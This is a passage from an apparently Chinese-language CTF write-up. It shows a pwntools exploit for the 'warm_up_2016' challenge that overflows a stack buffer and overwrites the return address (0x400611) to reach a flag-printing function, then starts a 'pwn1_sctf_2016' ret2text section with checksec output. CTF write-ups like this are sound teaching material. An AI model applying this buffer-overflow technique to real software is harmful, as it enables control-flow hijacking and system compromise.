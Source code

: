 ![image.png](img/3ec678e37fcbc474cab0d1554e864b3d.png)

故构造payload如下：

```
from pwn import *
payload = b'A'* (0x40 + 8) + p64(0x400611)

p = process('./warm_up_2016')
p.sendline(payload)
p.interactive() 
```

输入我们的payload，得到flag

![image.png](img/b78d12dc531c52b2dd7d21b066602125.png)

# 0x004.pwn1_sctf_2016 - ret2text

惯例的`checksec`，发现只开了NX保护

![image.png](img/35ed89b7a787bb8f04db09b2914fc9c0.png)
